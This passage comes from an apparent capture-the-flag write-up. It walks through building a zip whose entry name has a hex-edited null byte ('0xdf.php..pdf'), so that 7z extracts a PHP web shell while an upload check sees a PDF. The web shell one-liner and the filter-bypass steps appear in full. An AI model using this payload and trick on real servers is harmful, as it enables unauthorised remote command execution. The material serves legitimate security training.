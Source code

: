 ```
>>> with open('test\x00.pdf', 'w') as f:
...   f.write("this is a test file")
...
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: embedded null byte

```

Python will create a Zip when given a null in the filename:

```
>>> import zipfile
>>> with zipfile.ZipFile("example.zip", "w") as zip_file:
...     zip_file.writestr("test.php\x00.pdf", "this is a test")
...

```

However, if I look at a hex dump of the resulting file, the `\x00.pdf` is gone:

![image-20240110123240105](https://0xdf.gitlab.io/img/image-20240110123240105.png)

Instead, I’ll write one with two dots, the first acting as a placeholder:

```
>>> with zipfile.ZipFile("nulls.zip", "w") as zip_file:
...     zip_file.writestr("0xdf.php..pdf", "<?php system($_REQUEST['cmd']); ?>")
...

```

Now I’ll open `nulls.zip` in a hex editor find the references to the filename:

![image-20240110123544736](https://0xdf.gitlab.io/img/image-20240110123544736.png)

Changing the first one will break `7z`, which is important because that’s what Zipping uses. I’ll just change the first null in the second filename:

![image-20240110123955810](https://0xdf.gitlab.io/img/image-20240110123955810.png)

#### Handling Nulls 7z/zip vs PHP

Once I’ve edited the null into the second filename instance inside the zip, `unzip` and `7z` both show it as just `0xdf.php`, stopping at the null:

```
oxdf@hacky$ unzip -l nulls.zip
Archive:  nulls.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       34  2024-01-10 12:34   0xdf.php
---------                     -------
       34                     1 file
oxdf@hacky$ 7z l nulls.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs AMD Ryzen 9 5900X 12-Core Processor             (A20F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 158 bytes (1 KiB)

Listing archive: nulls.zip

--
Path = nulls.zip
Type = zip
```